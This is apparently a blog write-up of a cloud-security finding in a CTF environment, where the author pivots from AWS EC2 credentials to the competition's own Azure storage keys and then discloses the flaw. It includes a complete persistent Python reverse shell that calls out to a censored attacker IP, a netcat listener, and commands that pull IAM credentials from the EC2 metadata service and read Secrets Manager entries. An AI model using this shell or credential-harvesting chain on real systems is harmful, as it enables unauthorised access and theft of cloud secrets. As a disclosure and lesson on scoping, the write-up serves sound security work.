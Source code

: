 ## ***Amazon AWS EC2 to Azure Blob Storage***

Hi all, its been a while. This is a walk through of a security issue I found in a real environment on a CTF challenge environment I was exploring. This issue has been reported and fixes by the company hosting it, who'll stay anonymous. Long story short, AWS Keys -> Azure Blob Storage.

This competition, was designed for us to upload a python script to a host, which then attacks another vulnerable box with our script and attempts to steal data within a time limit.

My first step, as always was to pop a shell on the system I was testing from.

```python
#!/usr/bin/env python3

import socket
import subprocess
import os
import sys
import time
import threading
import signal

def connect_back():
    # Target IP and port for reverse connection
    TARGET_IP = "<censored>"
    TARGET_PORT = <censored>
    
    # Make this process independent from parent
    try:
        # Ignore common termination signals
        signal.signal(signal.SIGTERM, signal.SIG_IGN)
        signal.signal(signal.SIGINT, signal.SIG_IGN)
        if hasattr(signal, 'SIGHUP'):
            signal.signal(signal.SIGHUP, signal.SIG_IGN)
    except:
        pass
    
    # Retry connection loop for persistence
    retry_count = 0
    max_retries = 100
    
    while retry_count < max_retries:
        try:
            # Create socket connection
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((TARGET_IP, TARGET_PORT))
            
            # Send initial connection message with cross-platform hostname
            try:
                hostname = socket.gethostname()
            except:
                hostname = "unknown"
            s.send(b"[+] Reverse shell connected from " + hostname.encode() + b" (attempt " + str(retry_count + 1).encode() + b")\n")
            
            # Reset retry count on successful connection
            retry_count = 0
            
            while True:
                # Receive command from server
                command = s.recv(1024).decode().strip()
                
                if command.lower() == 'exit':
                    return  # Only exit on explicit command
                elif command.lower() == 'quit':
                    return  # Only exit on explicit command
                elif command == '':
                    continue
                
                try:
                    # Execute command and capture output
                    if command.startswith('cd '):
                        # Handle directory changes
                        path = command[3:].strip()
                        os.chdir(path)
                        output = f"Changed directory to {os.getcwd()}\n"
                    else:
                        # Execute other commands
                        result = subprocess.run(command, shell=True, capture_output=True, text=True, timeout=30)
                        output = result.stdout + result.stderr
                        
                    if not output:
                        output = "Command executed successfully (no output)\n"
                        
                except subprocess.TimeoutExpired:
                    output = "Command timed out\n"
                except Exception as e:
                    output = f"Error executing command: {str(e)}\n"
                
                # Send output back to server
                try:
                    s.send(output.encode())
                except:
                    break  # Connection lost, retry
                    
        except Exception as e:
            # Connection failed, increment retry and wait before retrying
            retry_count += 1
            if retry_count < max_retries:
                # Exponential backoff with some randomization
                wait_time = min(30, 2 ** min(retry_count, 5)) + (retry_count % 3)
                time.sleep(wait_time)
        finally:
            try:
                s.close()
            except:
                pass


```

And lets listen...
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp <port>
listening on [any] <port> ...
connect to [<local_ip>] from (UNKNOWN) [<EC2 IP>] 49743
[+] Reverse shell connected from EC2AMAZ-<HOSTNAME> (attempt 1)

```

Alright lets go, pretty easy. Lets see what permissions our instance has.

Grab credentials on the box using Amazon API.

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
<censored-account>
```

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<censored-account> 
{ "Code" : "Success", "LastUpdated" : "<Censored Date>", "Type" : "AWS-HMAC", "AccessKeyId" : "<KeyID>", "SecretAccessKey" : "<AccessKey", "Token" : "<TokenID>", "Expiration" : "<Censored Date>" }
```

Now, we can use the AWS CLI locally, to continue testing our privileges.

Set AWS Tokens using AWS CLI
```
export AWS_ACCESS_KEY_ID="NEW_ACCESS_KEY"
export AWS_SECRET_ACCESS_KEY="NEW_SECRET_KEY"
export AWS_SESSION_TOKEN="NEW_SESSION_TOKEN"
```

Check on my machine that credentials worked.
```bash
aws sts get-caller-identity 
{ "UserId": "<censored-id>:<censored-instance>", "Account": "<censored-account>", "Arn": "arn:aws:sts::<account-id>:assumed-role/<censored-account>/<censored-instance" }
```

Now at this point, I tried some IAM stuff, looking for machines I had access to with SSM, but this ultimately failed. I wanted shell on the target box, that was my golden goose at this point. After a bit of researching and try different commands I stumbled on something interesting.

AWS Secrets Manager.

```bash
aws secretsmanager list-secrets
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-2:<censored>:secret:<Censored>-<Censored>",
            "Name": "<Censored>-credentials",
            "LastChangedDate": "2024-07-26T14:54:43.432000+09:30",
            "LastAccessedDate": "2025-08-28T09:30:00+09:30",
            "Tags": [],
            "SecretVersionsToStages": {
                "<censored>": [
                    "AWSPREVIOUS"
                ],
                "<censored>": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2024-07-24T16:57:07.179000+09:30"
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-2:<censored>:secret:<Censored>-Keys-<Censored>",
            "Name": "<Censored>-Keys",
            "Description": "EC2 secrets for <Censored> <censored>",
            "LastChangedDate": "2025-05-29T14:46:07.967000+09:30",
            "LastAccessedDate": "2025-08-28T09:30:00+09:30",
            "Tags": [],
            "SecretVersionsToStages": {
                "<censored>": [
                    "AWSPREVIOUS"
                ],
                "<censored>": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2025-05-29T13:18:20.031000+09:30"
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-2:<censored>:secret:<censored>",
            "Name": "<Censored>-keys",
            "Description": "Keys used for the Cyber Security competition in <Censored>.",
            "LastChangedDate": "2025-08-19T09:14:48.723000+09:30",
            "LastAccessedDate": "2025-08-28T09:30:00+09:30",
            "Tags": [],
            "SecretVersionsToStages": {
                "<censored>": [
                    "AWSCURRENT"
                ],
                "<censored>": [
                    "AWSPREVIOUS"
                ]
            },
            "CreatedDate": "2025-06-24T20:19:44.494000+09:30"
        }
    ]
}

```


Uhhh, what the hell? Why is there Keys used for the competition here. That doesn't make any sense. I have been going about this the wrong way?

Let me check whats in these secrets.

```
lloyd@lloydlaptop:~$ aws secretsmanager get-secret-value --secret-id <censored>
{
    "ARN": "arn:aws:secretsmanager:us-east-2:<censored>:secret:<censored>-Keys-<censored>",
    "Name": "<censored>-Keys",
    "VersionId": "<censored>",
    "SecretString": "{\"Microsoft.ServiceBus.ConnectionString\":\"Endpoint=sb://<censored>.servicebus.windows.net/;SharedAccessKeyName=RootManageSharedAccessKey;SharedAccessKey=<censored>\",\"<censored>StorageAccountConnectionString\":\"DefaultEndpointsProtocol=https;AccountName=<censored>;AccountKey=<censored>;EndpointSuffix=core.windows.net\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-05-29T14:46:07.962000+09:30"
}

```


```
lloyd@lloydlaptop:~$ aws secretsmanager get-secret-value --secret-id <censored>
{
    "ARN": "arn:aws:secretsmanager:us-east-2:<censored>:secret:<censored>-keys",
    "Name": "<censored>-keys",
    "VersionId": "<censored>",
    "SecretString": "{\"subnet\":\"<censored-subnet>\",\"security-group\":\"sg-<censored-group>\",\"private-key-pair-name\":\"<censored>-key\",\"aws-access-key\":\"<censored>\",\"ami-id\":\"ami-<censored>\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-08-19T09:14:48.718000+09:30"
}

```


Oh *shit*. These are Azure Blob Storage keys for **the competition site**. This is not what I wanted.

This had everything, user submissions, test data, **database backups with service account hashes**, **Azure Key Vaults**. This is not what I was intending to do.

One responsible disclosure later, and it appears this method has been patched. This is a great example of scoping is really important when hosting competition and an even better example of why you should get pentested more often. 